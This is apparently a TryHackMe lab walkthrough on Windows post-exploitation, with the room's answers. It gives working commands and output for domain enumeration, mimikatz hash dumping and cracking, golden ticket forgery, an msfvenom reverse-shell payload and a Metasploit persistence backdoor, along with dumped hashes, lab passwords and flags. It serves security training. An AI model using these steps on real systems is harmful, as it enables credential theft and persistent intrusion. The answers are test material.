


# Post-Exploitation Basics

Learn the basics of post-exploitation and maintaining access with mimikatz, bloodhound, powerview and msfvenom

[Post-Exploitation Basics](https://tryhackme.com/room/postexploit)

## Topic's

- Windows Post-Exploitation Fundamentals

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Introduction

This room will cover all of the basics of post-exploitation; we'll talk everything from post-exploitation enumeration with powerview and bloodhound, dumping hashes and golden ticket attacks with mimikatz, basic information gathering using windows server tools and logs, and then we will wrap up this room talking about the basics of maintaining access with the persistence metaploit module and creating a backdoor into the machine to get an instant meterpreter shell if the system is ever shutdown or reset.

This room will be related to very real world applications and will most likely not help with any ctfs however this room will give you great starting knowledge of how to approach a network after you have gained a shell on a machine.


To start this room deploy the machine and start the next section on enumerating with powerview.

**This Machine can take up to 10 minutes to boot and up to 10 minutes to ssh or rdp into the machine**

Deploy the Machine

`No answer needed`

## Enumeration w/ Powerview

To start this room you will need to rdp or ssh into the machine your credentials are

- **user**:Administrator
- **pass**:P@$$W0rd
- **domain**:controller.local

Your machine IP is 10.10.102.37

Powerview is a powerful powershell script from powershell empire that can be used for enumerating a domain after you have already gained a shell in the system.

We'll be focusing on how to start up and get users and groups from PowerView.

I have already taken the time and put PowerView on the machine

1. Start Powershell - `powershell -ep bypass` -ep bypasses the execution policy of powershell allowing you to easily run scripts
   1. 
2. Start PowerView - `. .\Downloads\PowerView.ps1`
3. Enumerate the domain users - `Get-NetUser | select cn`
   1. 
4. Enumerate the domain groups - `Get-NetGroup -GroupName *admin*`
   1. 

Now enumerate the domain further on your own

Here's a cheatsheet to help you with commands: https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

Cheatsheet Credit: HarmJ0y

```
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
PS> . .\Downloads\PowerView.ps1
```

What is the shared folder that is not set by default?

```
PS C:\Users\Administrator> Invoke-ShareFinder
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin
\\Domain-Controller.CONTROLLER.local\C$         - Default share
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
```

`Share`

What operating system is running inside of the network besides Windows Server 2019?

```
PS C:\Users\Administrator> Get-NetComputer -fulldata | select operatingsystem

operatingsystem
---------------
Windows Server 2019 Standard
Windows 10 Enterprise Evaluation
Windows 10 Enterprise Evaluation
```

`Windows 10 Enterprise Evaluation`

I've hidden a flag inside of the users find it

```
PS C:\Users\Administrator> Get-NetUser | select cn

cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
```

`POST{P0W3RV13W_FTW}`

## Enumeration w/ Bloodhound

Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

Well be focusing on how to collect the .json files and how to import them into Bloodhound

I have already taken the time to put SharpHound onto the machine


**BloodHound Installation -**

1. `apt-get install bloodhound`
2. `neo4j console` - default credentials -> neo4j:neo4j

**Getting loot w/ SharpHound -**

1. `powershell -ep bypass` same as with PowerView
2. `. .\Downloads\SharpHound.ps1`
3. `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`
   1. 
4. Transfer the loot.zip folder to your Attacker Machine

note: you can use scp to transfer the file if you’re using ssh

**Mapping the network w/ BloodHound -**

1. `bloodhound` Run this on your attacker machine not the victim machine
2. Sign In using the same credentials you set with Neo4j
   1. 
3. Inside of Bloodhound search for this icon  and import the loot.zip folder

note: On some versions of BloodHound the import button does not work to get around this simply drag and drop the loot.zip folder into Bloodhound to import the .json files

4. To view the graphed network open the menu and select queries this will give you a list of pre-compiled queries to choose from.


The queries can be as simple as find all domain admins -


Or as complicated as shortest path to high value targets -


There are plenty of queries to choose from and enumerate connections inside of the network

```
PS C:\Users\Administrator> . .\Downloads\SharpHound.ps1
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -Zip
FileName loot.zip
------------------------------------------------
Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
Compressing data to C:\Users\Administrator\20201120142947_loot.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 2:29 PM on 11/20/2020! Happy Graphing!

PS C:\Users\Administrator> scp -o StrictHostKeyChecking=no .\20201120142947_loot.zip kali@10.8.106.222:/home/kali/CTFs/tryhackme
Warning: Permanently added '10.8.106.222' (ECDSA) to the list of known hosts.
kali@10.8.106.222's password:
20201120142947_loot.zip                                                                                                             100% 9507   297.1KB/s   00:00
```

What service is also a domain admin

`SQLSERVICE`

What two users are Kerberoastable?

```
KRBTGT@CONTROLLER.LOCAL
pwdlastset: Thu, 14 May 2020 03:14:47 GMT

SQLSERVICE@CONTROLLER.LOCAL
pwdlastset: Thu, 14 May 2020 03:26:58 GMT
```

`SQLSERVICE, KRBTGT`

## Dumping hashes w/ mimikatz

Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network

We'll be focusing on dumping the NTLM hashes with mimikatz and then cracking those hashes using hashcat

I have already taken the time to put mimikatz on the machine

**Dump Hashes w/ mimikatz -**

1. `cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary
   1. 
2. `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly
   1. 
3. `lsadump::lsa /patch` Dump those hashes!
   1. 

**Crack those hashes w/ hashcat**

1. `hashcat -m 1000 <hash> rockyou.txt`


Mimikatz has many uses along side being a great tool to dump hashes we will cover another one of those ways of using mimikatz in the next task by creating a golden ticket with mimikatz

```
PS C:\Users\Administrator> cd Downloads
PS C:\Users\Administrator\Downloads> . .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 4bd04581d16353e6bf64ba9745cb6a8f

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
```

what is the Machine1 Password?

```
kali@kali:~/CTFs/tryhackme/Post-Exploitation Basics$ hashcat -m 1000 Machine1.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 1024/3023 MB allocatable, 4MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=1000 -D _unroll'
* Device #1: Kernel m01000_a0-pure.577ef21e.kernel not found in cache! Building may take a while...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

64f12cddaa88057e06a81b54e73b949b:Password1

Session..........: hashcat
Status...........: Cracked
Hash.Type........: NTLM
Hash.Target......: 64f12cddaa88057e06a81b54e73b949b
Time.Started.....: Fri Nov 20 23:51:46 2020 (0 secs)
Time.Estimated...: Fri Nov 20 23:51:46 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    11926 H/s (0.52ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4096/14344385 (0.03%)
Rejected.........: 0/4096 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> oooooo

Started: Fri Nov 20 23:51:09 2020
Stopped: Fri Nov 20 23:51:48 2020
```

`Password1`

What is the Machine2 Hash?

`c39f2beb3d2ec06a62cb887fb391dee0`

## Golden Ticket Attacks w/ mimikatz

Again using the same tool as the previous task; however, this time we'll be using it to create a golden ticket.

We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

I have already taken the time to put mimikatz on the machine.

**Dump the krbtgt Hash -**

1. `cd downloads && mimikatz.exe`
2. `privilege::debug` ensure this outputs [privilege "20" ok]
3. l`sadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket


**Take note of what is outlined in red you'll need it to create the golden ticket**

**Create a Golden Ticket -**

1. `kerberos::golden /user: /domain: /sid: /krbtgt: /id:`


**Use the Golden Ticket to access other machine -**

1. `misc::cmd` - This will open a new command prompt with elevated privileges to all machines
   1. 
2. Access other Machines! - You will now have another command prompt with access to all other machines on the network
   1. 
   2. 

Unfortunately because tryhackme does not currently support networks you will be unable to access other machines however I encourage you to add other machines to this domain controller yourself and try out these attacks

```
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4
```

`kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

```
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdf
df /id:500
User      : Administrator
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 11/20/2020 2:57:52 PM ; 11/18/2030 2:57:52 PM ; 11/18/2030 2:57:52 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7874243B8
```

I understand how a golden ticket attack works and how to use a golden ticket attack to move through a network

`No answer needed`

## Enumeration w/ Server Manager

Because servers are hardly ever logged on unless its for maintenance this gives you an easy way for enumeration only using the built in windows features such as the server manager. If you already have domain admin you have a lot of access to the server manager in order to change trusts, add or remove users, look at groups, this can be an entry point to find other users with other sensitive information on their machines or find other users on the domain network with access to other networks in order to pivot to another network and continue your testing.

The only way to access the server manager is to rdp into the server and access the server over an rdp connection

We'll only be going over the basics such as looking at users, groups, and trusts however there are a lot of other mischief that you can get your hands on in terms of enumerating with the server manager

This can also be a way of easily identifying what kind of firewall the network is using if you have not already enumerated it.

**Connect to the VM w/ RDP:**

- Your machine IP is 10.10.64.101
- Username: Administrator
- Password: P@$$W0rd
- Domain Name: CONTROLLER

**Enumeration w/ Server Manager -**

This is what Windows Server Manager will look when you first open it up the main tabs that will be most interesting are the tools and manage tabs the tools tab is where you will find most of your information such as users, groups, trusts, computers. The manage tab will allow you to add roles and features however this will probably get picked up by a systems admin relatively quick.

Dont worry about the AD CS, AD DS, DNS, or File and Storage Services these are setup for exploitation of the active directory and dont have much use for post-exploitation


Navigate to the tools tab and select the Active Directory Users and Computers


This will pull up a list of all users on the domain as well as some other useful tabs to use such as groups and computers

Some sys admins dont realize that you as an attacker can see the descriptions of user accounts so they may set the service accounts passwords inside of the description look into the description and find what the SQL Service password is

What tool allows to view the event logs?



`Event Viewer`

What is the SQL Service password



`MYpassword123#`

## Maintaining Access

There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.

This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.

**Generating a Payload w/ msfvenom**

1. `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell
   1. 
2. Transfer the payload from your attacker machine to the target machine.
3. `use exploit/multi/handler` - this will create a listener on the port that you set it on.
4. Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`
5. After setting your THM IP address as your "LHOST", start the listener with `run`
6. Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that
7. Verify that we've got a meterpreter shell, where we will then `background` it to run the persistence module.

**Run the Persistence Module -**

1. `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want
2. `set session 1` set the session to the session that we backgrounded in meterpreter (you can use the sessions command in metasploit to list the active sessions)


If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to `windows/meterpreter/reverse_tcp` allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.


Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.

There are other ways of maintaining access such as adding users and rootkits however I will leave you to do your own research and labs on those topics.

I understand how to install a backdoor on a system using the persistence module

`No answer needed`

## Conclusion

**Final Thoughts -**

This room has given a good beginning with post-exploitation however there are a lot of other methods ever-evolving. I suggest to you to go out and do your own research find your own tools that you like to use for post-exploitation. I hope to make another room similar to this covering more advanced topics such as more in-depth backdoors and trojans, pivoting, token impersonation, and silver ticket attacks. I hope that this room has helped to give you a better understanding of how post-exploitation works in a real-world scenario.

**Resources -**

- https://blog.harmj0y.net/
- https://adsecurity.org/?page_id=1821
- https://metasploit.help.rapid7.com/docs/about-post-exploitation
- http://www.pentest-standard.org/index.php/Post_Exploitation
- https://offsec.red/mimikatz-cheat-sheet/
- https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

**Tools/Malware Used -**

- https://github.com/gentilkiwi/mimikatz
- https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

I understand the basics of post-exploitation

`No answer needed`
